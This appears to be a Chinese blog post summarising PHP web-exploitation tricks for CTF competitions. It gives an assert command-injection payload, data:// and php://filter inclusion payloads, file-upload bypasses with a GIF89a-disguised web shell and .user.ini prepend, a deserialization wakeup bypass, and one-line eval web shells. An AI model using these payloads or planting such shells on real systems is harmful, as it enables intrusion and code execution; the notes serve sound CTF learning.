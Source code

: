 ```yaml
---
title: CTF中比赛中PHP相关的知识点
date: 2022-12-29 21:46:39
keywords: ctf php, ctf php知识点
description: 总结 CTF 比赛中可能遇到的 PHP 相关的知识点，本文只做关键信息的总结，具体内容可以依据关键信息在互联网搜索操作步骤。 
---
```


## 一些函数的绕开

`str_replace / strstr` 函数在匹配 `php://` 字符串时，可以考虑使用大小写或大小写混合的方式绕过检查。

`assert` 绕过可以使用 `*1') or system("cat templates/flag.php");//*`  的方式。

`strpos`  

`preg_replace` 存在 /e 执行漏洞。


## 文件读取

```php
<?php  
// $filename 可以用 GET / POST 方式传入
if( isset($text) && (file_get_contents($filename,'r')==="hello ctf")){

}
```

当遇到 file_get_contents($file_name) 代码做条件判断时，尝试通过 data 伪协议传入希望读取的内容。data 伪协议也可以被 `include` 函数调用，从PHP5.2.0起，数据封装流就开始有效，用于数据流的读取。如果传入的都是PHP代码，就会执行任意代码。

### data 伪协议

```php
data://text/plain,hello ctf
data://text/plain;base64,aGVsbG8gY3Rm

/ 可以使用 &#47;
data:&#47;&#47;text&#47;plain,4
```

### php 伪协议

当遇到 `include` 函数时，可以用 `php://` 伪协议将文件内容打印出来


```sh
# 用于执行代码
?file=php://input
# 用户获取源码
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=index.php

?file=php://filter/convert.iconv.UCS-4*.UCS-4BE/resource=check.php
?file=php://filter/convert.iconv.EUC-JP%2a.UCS-4*/resource=flag.php
```

### 使用网络路径

```sh
?file=http://localhost:8081/phpinfo.php?.txt
```



## 文件上传绕过

文件上传功能风险在于被人上传木马，经常用到的一句话木马为 `<?php eval($_GET['a']); ?>`，而绕过的方法有很多种。

* 前端校验
* MIME绕过
* 文件头校验
* 截断绕过
* 图片木马

在文本文件中添加 `GIF89a` 并保存为 jpg 文件，可以伪装成图片文件。利用 `<?` 短符号，可以绕过 php 文件的探测。

```sh
GIF89a                                                                                                                                                                                
<?=eval($_REQUEST['cmd']);?>
```

`.user.ini` 配置，可以将某个文件默认追加到所有执行 php 的文件的头部

```sh
GIF89a                  
auto_prepend_file=b.jpg
```

## 反序列化绕过

序列化就是将运行中的数据或者对象保存为持久化的数据，并且支持将持久化的数据反序列化转换为数据或者对象。序列化的目的是方便数据的传输和存储。

php 的序列化和反序列化会用到 `serialize` 和 `unserialize` 函数。

```php
// 使用这两个替换，可以绕过 wakeup 函数
$a = str_replace(':4:', ':+4:', $a);
$a = str_replace(':1:', ':2:', $a);
```



## 弱类型比较的漏洞

在一些代码审计的题目中，可能存在弱类型漏洞，需要敏锐的发现这些问题。



## 一句话木马

通常PHP的一句话代码是这样的

```php
<?php

//One Word Backdoor
eval($_POST['a']);
//或者这种，可以支持GET/POST请求
//eval($_REQUEST['a'];

?>
```

在有的题目中，需要上传 PHP5 格式的代码，



## 参考资料

1. [CTF include](https://blog.csdn.net/qq_61774705/article/details/126323696)
1. [攻防世界CTF —— PHP本地文件包含漏洞解题思路](https://blog.csdn.net/weixin_47610939/article/details/126019042)
1. [2021-02-23-ctf-Web_php_unserialize反序列化漏洞](https://blog.csdn.net/weixin_43639682/article/details/123686797)
1. [[CTF]PHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692)
1. [XCTF-攻防世界CTF平台-Web类——19、mfw（.Git源代码泄露、php的assert断言）](https://blog.csdn.net/Onlyone_1314/article/details/121876664)
1. [路径穿越（Path Traversal）详解](https://blog.csdn.net/qingzhantianxia/article/details/128204437)
